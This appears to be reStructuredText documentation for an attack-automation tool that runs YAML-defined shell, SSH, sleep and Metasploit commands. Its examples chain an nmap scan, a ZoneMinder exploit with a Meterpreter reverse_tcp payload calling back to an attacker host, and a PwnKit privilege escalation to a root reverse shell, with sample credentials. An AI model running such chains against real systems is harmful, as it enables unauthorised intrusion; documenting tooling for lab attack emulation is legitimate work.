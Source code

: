 ========
commands
========

This setting holds a list of commands that are executed sequentially from
top to bottom.

Every command, regardless of the type has the following options:

.. confval:: error_if

   If this option is set, an error will be raised if the string was found in the output
   of the command.

   :type: str


.. confval:: error_if_not

   If this option is set, an error will be raised if the string was not found in the output
   of the command.

   :type: str


.. confval:: loop_if

   If this option is set, the command will be executed again if the string was found in the
   output of the command.

   :type: str


.. confval:: loop_if_not

   If this option is set, the command will be executed again if the string was not found in the
   output of the command.

   :type: str


.. confval:: loop_count

   This option controlls how often a command should be re-executed if loop_if ord loop_if_not is set.

   :type: int
   :default: ``3``

.. confval:: cmd

   This option stores the command that will be executed. This option might be implemented individually
   in each command-type.

   :type: str


shell
-----

This command executes local shell-commands.

.. confval:: cmd

   cmd stores the command-line that should be executed locally.

   :type: str


   .. code-block:: yaml

      ###
      msf_config:
        password: top-secret
        server: 10.18.3.86

      vars:
        $SERVER_ADDRESS: 192.42.0.254
        $NMAP: /usr/bin/nmap

      commands:
        - type: shell
          cmd: $NMAP $SERVER_ADDRESS

sleep
-----

This command sleeps a certain amount of time.

.. code-block:: yaml

   ###
   commands:
     - type: sleep
       seconds: 60


.. confval:: min_sec

   This option defines the minimum seconds to sleep. This
   is only relevant if option **random** is set to True

   :type: int
   :default: ``0``


.. confval:: seconds

   This options sets the seconds to sleep. If the option
   **random** is set to True, this option is the maximum time
   to sleep.

   :type: int
   :default: ``1``
   :required: True


.. confval:: random

  This option allows to randomize the seconds to wait. The minimum
  and maximum seconds for the range can be set by **min_sec** and
  **seconds**.


  :type: bool
  :default: ``False``


  The following example will take a random amount of seconds between 30 seconds
  and 60 seconds:

  .. code-block:: yaml

     ###
     commands:
       - type: sleep
         seconds: 60
         min_sec: 30


.. confval:: cmd

  This option is ignored

  :type: str
  :default: ``sleep``

ssh
---

Execute commands on a remote server via SSH.

.. note::

   This command caches all the settings so
   that they only need to be defined once.

.. code-block:: yaml

   ###
   msf_config:
     password: hackhelfer
     server: 10.18.3.86

   vars:
     $SERVER_ADDRESS: 192.42.0.254

   commands:
     - type: shell
       cmd: nmap $SERVER_ADDRESS
       error_if: .*test.*

     - type: ssh
       cmd: ida
       hostname: 10.10.10.19
       username: alice
       key_filename: "/home/alice/.ssh/id_rsa"

     - type: ssh
       cmd: id

.. confval:: hostname

   This option sets the hostname or ip-address of the
   remote ssh-server.

   :type: str

.. confval:: port

   Port to connect to on the remote host.

   :type: int

.. confval:: username

   Specifies the user to log in as on the remote machine.

   :type: str

.. confval:: password

   Specifies the password to use. An alternative would be to use a key_file.

   :type: str

.. confval:: passphrase

   Use this passphrase to decrypt the key_file. This is only necessary if the
   keyfile is protected by a passphrase.

   :type: str

.. confval:: timeout

   The timeout to drop a connection attempt in seconds.

   :type: float

.. _msf-module:

msf-module
----------

This command executes Metasploit-Modules via Metasploits RPC-Api.

.. note::

   To configure the connection to the msfrpc-server see :ref:`msf_config`

Some Metasploit-Modules return output. Like the Auxilary-Modules:

.. code-block:: yaml

   msf_config:
     password: hackhelfer
     server: 10.18.3.86

   commands:
     - type: msf-module
       cmd: auxiliary/scanner/portscan/tcp
       options:
         RHOSTS: 192.42.0.254

Most Exploit-Modules don't create output but instead they create
sessions(see :ref:`msf-session`)

.. code-block:: yaml

   msf_config:
     password: hackhelfer
     server: 10.18.3.86

   commands:
     - type: msf-module
        cmd: exploit/unix/webapp/zoneminder_snapshots
        creates_session: "foothold"
        options:
          RHOSTS: 192.42.0.254
        payload_options:
          LHOST: 192.42.2.253
        payload: cmd/unix/python/meterpreter/reverse_tcp

.. confval:: cmd

   This option stores the path to the metasploit-module.

   :type: str

   .. note::

     Please note that the path includes the module-type.


.. confval:: target

   This option sets the payload target for the metasploit-module.

   :type: int
   :default: ``0``

.. confval:: creates_session

   A session name that identifies the session that is created by
   the module. This session-name can be used by :ref:`msf-session`

   :type: str

.. confval:: session

   This option is set in exploit['SESSION']. Some modules(post-modules)
   need a session to be executed with.

   :type: str

.. confval:: payload

   Path to a payload for this module.

   :type: str

   The following example illustrates the use of sessions and payloads:

   .. code-block:: yaml

      commands:
        - type: msf-module
           cmd: exploit/unix/webapp/zoneminder_snapshots
           creates_session: "foothold"
           options:
             RHOSTS: 192.42.0.254
           payload_options:
             LHOST: 192.42.2.253
           payload: cmd/unix/python/meterpreter/reverse_tcp

         - type: msf-module
           cmd: exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
           session: "foothold"
           creates_session: "root"
           options:
             WRITABLE_DIR: "/tmp"
           payload_options:
             LHOST: 192.42.2.253
             LPORT: 4455
           payload: linux/x64/shell/reverse_tcp

.. confval:: options

   Dict(key/values) of module options, like RHOSTS:

   :type: Dict[str,str]

.. confval:: payload_options

   Dict(key/values) of payload options, like LHOST and LPORT:

   :type: Dict[str,str]


.. _msf-session:

msf-session
-----------

This command allowes to read and write commands to (Meterpreter)sessions that
have previously created by msf-modules(see :ref:`msf-module`).


.. note::

   To configure the connection to the msfrpc-server see :ref:`msf_config`

.. confval:: stdapi

   Load stdapi module in the Meterpreter-session.

   :type: bool
   :default: ``False``

.. confval:: write

   Execute a raw write-operation without reading the output.

   :type: bool
   :default: ``False``

.. confval:: read

   Execute a raw read-operation without a write-operation.

   :type: bool
   :default: ``False``

.. confval:: session

   Use this session for all operations.

   :type: str
   :required: True

.. confval:: end_str

   This string indicated the end of a read-operation.

   :type: str

